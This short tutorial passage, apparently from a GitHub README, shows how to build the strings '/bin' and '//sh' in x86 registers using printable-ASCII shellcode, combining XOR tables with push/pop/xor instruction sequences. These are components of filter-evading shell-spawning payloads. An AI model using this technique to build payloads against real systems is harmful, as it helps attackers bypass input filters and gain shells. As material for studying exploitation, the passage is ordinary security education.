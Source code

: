 ### Example

Example1: generating '`/bin`'

1. List a table of string generated by XOR

| target | **1** | **b** | **i** | **n** |
| ------ | :---- | :---- | :---- | :---- |
| tmp1   | 1     | b     | 1     | 1     |
| tmp2   | b     | 1     | i     | 1     |
| tmp3   | b     | 1     | 1     | n     |

2. set `eax` to `1bin` with ascii shellcode

| ascii | instructions           |
| :---- | :--------------------- |
| h1b11 | push   0x31316231      |
| X     | pop    eax             |
| 5b1i1 | xor    eax, 0x31693162 |
| 5b11n | xor    eax, 0x6e313162 |

3. generate `/bin  ` from `1bin`

 ```nasm
           ; eax = 1bin
dec eax    ; eax = 0bin
dec eax    ; eax = /bin
 ```

Example2: generating '`//sh`'

1. List a table of string generated by XOR

| target | **/** | **/** | **s** | **h** |
| :----- | :---- | :---- | :---- | :---- |
| tmp1   | 1     | w     | 1     | P     |
| tmp2   | w     | 1     | A     | 1     |
| tmp3   | 1     | X     | 1     | 8     |
| tmp4   | X     | 1     | 2     | 1     |

2. set `eax` to `//sh` with ascii shellcode

| ascii | instructions           |
| :---- | :--------------------- |
| h1w11 | push   0x31317731      |
| X     | pop    eax             |
| 5w1A1 | xor    eax, 0x31413177 |
| 51X2P | xor    eax, 0x50325831 |
| 5X118 | xor    eax, 0x38313158 |
